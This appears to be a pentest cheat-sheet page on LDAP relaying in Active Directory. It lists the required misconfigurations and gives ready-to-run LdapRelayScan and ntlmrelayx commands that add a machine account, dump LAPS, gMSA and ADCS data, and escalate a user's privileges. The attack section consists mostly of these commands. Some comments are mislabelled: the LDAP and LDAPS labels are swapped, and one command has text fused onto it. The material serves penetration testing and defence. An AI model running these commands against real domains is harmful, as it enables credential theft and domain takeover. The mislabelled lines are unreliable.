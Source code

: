 # LDAP Relaying

LDAP Relaying attacks can make use of NTLM authentication. Similar to [SMB Relaying](smb-relaying.md), an attacker who captures credentials via [MITM6](../../networks/ipv6.md) or Responder can then relay them to a domain controller, targeting LDAP.&#x20;

It should be noted that the following two defaults need to be set in order for this to be exploited:

* [LDAP Signing Disabled](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/enable-ldap-signing-in-windows-server)
* [LDAP Channel Binding Disabled](https://support.microsoft.com/en-us/topic/use-the-ldapenforcechannelbinding-registry-entry-to-make-ldap-authentication-over-ssl-tls-more-secure-e9ecfa27-5e57-8519-6ba3-d2c06b21812e)

### Enumeration

#### LDAPRelayScan

[LDAPRelayScan](https://github.com/zyn3rgy/LdapRelayScan) can be utilized to identify whether LDAP Signing and/or LDAP Channel Binding are enabled or not.

```bash
# Generic usage of LdapRelayScan.py  
LdapRelayScan.py -u $user -p $password -dc-ip $dcipaddress -method BOTH
```

### Exploitation

{% tabs %}
{% tab title="Computer Creation" %}
Create a new domain computer by abusing the default attribute `ms-DS-MachineAccountQuota` which is by default set to 10, allowing all authenticated users to add up to 10 computers to the domain.&#x20;



This account can then be utilized to perform authenticated attacks against the domain such as Kerberoasting.&#x20;

```bash
# Relay to LDAP
ntlmrelayx.py -t ldaps://$dcip --add-computer $computername

# Relay to LDAPS
ntlmrelayx.py -t ldap://$dcip --add-computer $computername 
```
{% endtab %}

{% tab title="Dump" %}
Relay authentication to LDAP and obtain a significant amount of information about the domain such as ADCS configuration, LAPS, groups, users, etc.&#x20;

```bash
ntlmrelayx -t "ldap://$dcip" --dump-adcs --dump-laps --dump-gmsa
```
{% endtab %}

{% tab title="Escalate" %}
Relay captured credentials to LDAPS and escalate the privileges of a specified domain user.&#x20;

```bash
# Relay authentication over LDAPS and attempt to escalate privileges
ntlmrelayx.py -t ldaps://$dcip --escalate-user $usernameLAReferences
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/" %}

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/ldap-relay" %}

{% embed url="https://www.thehacker.recipes/ad/movement/ntlm/relay" %}

{% embed url="https://www.praetorian.com/blog/obtaining-laps-passwords-through-ldap-relaying-attacks/" %}
